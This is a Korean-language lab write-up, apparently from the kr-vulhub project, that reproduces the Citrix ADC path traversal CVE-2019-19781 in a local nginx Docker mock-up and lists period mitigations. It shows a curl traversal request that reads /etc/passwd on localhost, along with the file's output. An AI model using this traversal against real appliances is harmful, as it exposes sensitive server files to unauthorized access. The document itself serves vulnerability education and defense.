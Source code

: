 # CVE-2019-19781(Citrix ADC Path Traversal Vulnerability)

- **작성자** : 화이트햇 3기 6반 김현진
- **github** : https://github.com/hyunjin0334/kr-vulhub/tree/main/CVE-2019-19781
- **Pull Requests** : https://github.com/gunh0/kr-vulhub/pull/302#issue-3023100122


## 개요
- **CVE 번호** : CVE-2019-19781

- **공개 날짜** : 2019년 12월 17일
  
- **취약점 요약** : Citrix ADC(Application Delivery Controller)는 WEB/WAN 가속, 웹-방화벽, L7 DDoS 방어 등 다양한 기능이 포함된 올인원 제품입니다. Citrix Gateway는 원격 엑세스를 단순하게 만들어주며, 앱과 리소스에 대한 액세스를 보호합니다.  
이 두 장비의 일부 버전에서 입력값에 대한 적절한 검증이 부족하여 공격자가 임의 코드를 실행시킬 수 있는 취약점이 발견되었습니다. Directory Traversal을 허용하는 문제점이 발견된 것입니다. /vpns/ 폴더에 대한 검증이 부족하여 민감한 파일을 읽거나 원격 코드를 실행(RCE)시킬 수 있습니다.

- **영향을 받는 버전** : (2020년 7월 이전에 지원된 버전)
  - Citrix ADC 13.0 이하
  - Citrix ADC 12.1 이하
  - Citrix ADC 12.0 이하
  - Citrix ADC 11.1 이하
  - Citrix ADC 10.5 이하


## 환경 구성 
- **Base Image** : nginx:1.17-alpine
  
    - **선정 이유** : Citrix ADC는 라이선스 없이 사용할 수 없으며 Base image가 존재하지 않기 때문에 직접 사용할 수 없었습니다. 따라서 오픈 웹서버이며 경로 매핑을 자유롭게 할 수 있는 것을 선정하여 실습 환경을 구성하여야 했습니다. nginx는 경로 매핑을 자유롭게 할 수 있기 때문에 Direatory Traversal 환경을 구축할 수 있었습니다. 또한 alpine 기반 이미지를 통해 빌드 속도와, 가벼운 Docker환경을 구축하고자 하였습니다.
 
- **구성 파일** :
  - Dockerfile
  - docker-compose.yml
  - nginx.conf
  - html/index.html
  - html/etc/passwd
 
- **Directory**
```text
cve201919781/
├── Dockerfile
├── docker-compose.yml
├── nginx.conf
└── html/
    ├── index.html
    └── etc/
        └── passwd
```

## 익스플로잇 및 결과 
- **1. Docker 빌드 및 실행** :
```
docker-compose up --build
```
![Docker 빌드 및 실행](1.png)  

- **2. 브라우저 접속 확인** :
```
http://localhost:8080/
```
![브라우저 접속 확인](2.png)  
정상적으로 접속되면 'CVE-2019-19781 Test Page'가 뜨게 됩니다.   

- **3. curl을 이용하여 Directory Traversal 공격 시도** :
```
curl http://localhost:8080/vpn/../vpns/../etc/passwd
```
해당 명령어는 curl을 통해 'http://localhost:8080'에 '/vpn/../vpns/../etc/passwd'요청을 하는 것입니다. 경로조작을 통해 민감정보인 서버 내부의 /etc/passwd와 같은 사용자 계정 정보가 저장된 중요한 파일을 읽어내려는 공격입니다.

- **4. 공격 결과 출력** :
``` 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```
![curl시도 및 결과](3.png)   
/etc/passwd 안의 정보가 그대로 출력되어 공격에 성공하게 됩니다. 


## 정리
해당 취약점을 통해 민감 정보가 들어 있는 서버 내부의 파일에 인증 없이 접근이 가능했습니다. 해당 PoC에서는 내부의 민감 정보 파일에 정보를 읽도록 하였습니다. 간단히 원격 코드 실행(RCE)을 할 수 있었으며, 인증이 부족하다는 것으로 가장 민감한 정보까지 획득이 가능했습니다.   
취약점이 발견될 당시 /.../이 포함된 요청이나 /vpns/에 접근하려는 요청을 차단하길 권장하였습니다. 또한 snort 탐지 룰을 적용하여 모니터링하고 차단하기를 권장하였습니다. 현재는 보안 패치를 적용하여 해당 취약점에 대해 조치를 취한 상태입니다.

## 참고 자료 
- [CVE-2019-19781 Detail](https://nvd.nist.gov/vuln/detail/cve-2019-19781)
- [Citrix ADC and Gateway 취약점 (CVE-2019-19781)](https://ggonmerr.tistory.com/141)
- [[해외동향] Citrix 보안취약점(CVE-2019-19781) 점검도구 공개](https://www.cyberone.kr/news-trends-detail?id=56192&page=1)
- [보안 권고: 임의 코드 실행으로 이어지는 Citrix Application Delivery Controller 및 Citrix Gateway의 취약성(CVE-2019-19781)](https://www.silverfort.com/ko/blog/recommended-mitigation-steps-for-vulnerability-in-citrix-adc-and-citrix-gateway-cve-2019019781/)
- [Citrix Application Delivery Controller, Citrix Gateway, and Citrix SD-WAN WANOP appliance Security Update](https://support.citrix.com/s/article/CTX276688-citrix-application-delivery-controller-citrix-gateway-and-citrix-sdwan-wanop-appliance-security-update?language=en_US)
- [Nginx 개념 및 nginx.conf 설정](https://narup.tistory.com/209)
- [Citrix ADC and Gateway RCE Vulnerability (CVE-2019-19781)](https://peemangit.tistory.com/399)
- [New Snort rules protect against recently discovered Citrix vulnerability](https://blog.talosintelligence.com/snort-rules-cve-2019-19781/)
-[Detecting Citrix CVE-2019-19781](https://www.cisa.gov/news-events/cybersecurity-advisories/aa20-031a)




